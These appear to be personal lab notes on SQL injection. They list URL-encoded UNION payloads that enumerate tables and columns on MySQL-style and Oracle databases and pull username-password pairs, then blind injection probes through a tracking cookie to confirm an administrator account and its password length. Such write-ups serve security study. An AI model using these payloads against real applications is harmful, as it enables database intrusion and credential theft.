 ```
'+UNION+ALL+SELECT+NULL,table_name+FROM+information_schema.tables+WHERE+table_schema+!='information_schema'+AND+table_schema+!='mysql'+AND+table_schema+!%3d'performance_schema'--+ 
```
or without filters
`'+UNION+ALL+SELECT+NULL,table_name+FROM+information_schema.tables--+`
![[Pasted image 20230222010829.png]]
table: users_zuyyol
`'+UNION+ALL+SELECT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name%3d'users_zuyyol'--+`
![[Pasted image 20230222011031.png]]
columns:
	username_ntrpdn
	password_ltppoh

`'+UNION+ALL+SELECT+NULL,username_ntrpdn+||+password_ltppoh+FROM+users_zuyyol--+`
![[Pasted image 20230222011213.png]]

# listing the database contents on Oracle
2 columns
`'+UNION+SELECT+NULL,NULL+FROM+DUAL--`
![[Pasted image 20230222012423.png]]
both columns show results
`'+UNION+SELECT+NULL,table_name+FROM+all_tables--`
![[Pasted image 20230222012751.png]]
table: USERS_BKHMMC
`'+UNION+SELECT+NULL,column_name+FROM+all_tab_columns+WHERE+table_name+%3d+'USERS_BKHMMC'--`
![[Pasted image 20230222012921.png]]
columns:
	USERNAME_IOEFVP
	PASSWORD_AOSSJL
`'+UNION+SELECT+NULL,USERNAME_IOEFVP+||+USERNAME_IOEFVP+||+PASSWORD_AOSSJL+FROM+USERS_BKHMMC+--`
![[Pasted image 20230222013205.png]]

# Blind SQL injection

![[Pasted image 20230222201539.png]]
trackingid cookie is vulnerable
![[Pasted image 20230222201736.png]]
checking for a table called users
`'UNION+SELECT+table_name+FROM+information_schema.tables+WHERE+table_name%3d'users'--+`
then checking for username administrator a is just a char
`'UNION+SELECT+'a'+from+users+where+username%3d'administrator'--+`
![[Pasted image 20230222210740.png]]
and because we know there is a column inside users called password we can get password length for administrator
`'UNION+SELECT+'a'+from+users+where+username%3d'administrator'+AND+length(password)>20`
![[Pasted image 20230222210913.png]]
![[Pasted image 20230222210931.png]]
password length is 20
